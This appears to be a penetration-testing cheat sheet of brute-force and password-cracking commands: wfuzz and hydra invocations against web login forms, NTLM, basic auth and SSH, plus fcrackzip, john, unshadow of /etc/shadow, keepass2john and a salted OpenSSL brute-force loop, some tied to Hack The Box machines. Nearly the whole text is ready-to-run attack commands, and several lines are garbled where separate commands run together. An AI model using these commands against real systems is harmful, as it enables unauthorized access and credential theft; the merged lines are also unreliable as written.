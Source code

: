 # **Brute Force** #

## **Weak Credentials** ##

### **HTTP Brute Force** ###

* **wfuzz POST**

```
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://ip/admin/index.php
```

* **hydra POST**

```
hydra ip -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20
```

* **wfuzz NTLM**

```
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https:///api
```

* **wfuzz Basic Auth through Proxy**

```
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https:///api/v1/
```

### **Password Cracking** ###

* **zip**

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

* **/etc/shadow**

```
unshadow passwd shadow > passwordsjohn --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

* **keepass**

```
keepass2john /root/Desktop/NewDatabase.kdb > filejohn -incremental:alpha -format=keepass file
```

* **Bruteforce Salted**

```
for j in $(cat cipher); do echo $j; for i in $(cat digestion); do /root/Documents/HTB/Hawk/bruteforce-salted-openssl/bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c $j -d $i ../miau.txt -1 2>&1 | grep "candidate" ; done ; done
```

```
openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends
```

* **Port 22**

```
hydra -f -V -t 1 -C /usr/share/SecLists-5c9217fe8e930c41d128aacdc68cbce7ece96e4f/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -s 22 $IP ssh​
```

* **Hydra for login bypass**

```
Hydra for login bypass:hydra http://XXXX http-form-post "/TARGETPATH/TARGETPAGE.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txthrydra -C /seclist/tomcat-betterdefaultpasslist http-get://ip:port/manager/htmlhydra -C /root/attacker-framework/SecLists/Passwords/Default-Cr edentials/tomcat-betterdefaultpasslist.txt http-get://ip:8080/manager/html
```

* **Zip file Bruteforce**

```
 fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt backup.zip​
```

* **John**

```
 john --wordlist=/usr/share/wordlists/rockyou.txt keepass-hash.txt​
```
